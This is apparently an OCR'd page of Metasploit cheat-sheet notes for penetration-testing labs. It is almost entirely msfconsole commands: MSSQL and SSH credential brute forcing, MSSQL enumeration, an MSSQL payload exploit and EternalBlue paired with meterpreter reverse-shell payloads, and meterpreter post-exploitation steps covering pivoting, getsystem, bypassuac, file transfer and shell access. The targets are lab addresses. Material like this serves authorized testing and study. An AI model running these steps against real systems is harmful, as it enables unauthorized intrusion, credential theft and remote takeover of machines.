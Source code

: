 basic
```bash
msfconsole
use auxiliary/scanner/mssql/mssql_login
set rhosts 10.10.10.110
set rports 1433
set username admin
set password 12345
set verbose true
run
```
### msfconsole examples
msssql enum
```bash
use auxiliary/scanner/mssql/mssql_enum
set username admin
set password 12345
set rhosts 10.10.10.177
set rport 1433
run
```

mssql payload
```bash
use exploit/windows/mssql/mssql_payload
set rhosts 10.10.10.177
set rport 1433
set srvport 53
set username admin
set password qwerty
set payload windows/x64/meterpreter_reverse_tcp
```

ssh login enum (brute)
```bash
use auxiliary/scanner/ssh/ssh_login
show options
set rhosts 10.10.10.133
set user_file /usr/share/ncrack/minimal.usr
set pass_file /usr/share/ncrack/minimal.usr
set verbose true
run
```

eternal blue example:
```bash
use exploit/windows/smb/ms17_010_eternalblue
show options
set payload windows/x64/meterpreter/reverse_tcp
```

### meterpreter
```bash
meterpreter>run autoroute -s 172.16.50.0/24
background

sessions -l
sessions -i 1

sysinfo, ifconfig, route, getuid
getsystem (privesc)
bypassuac

download x /root/
upload x C:\\Windows
shell
```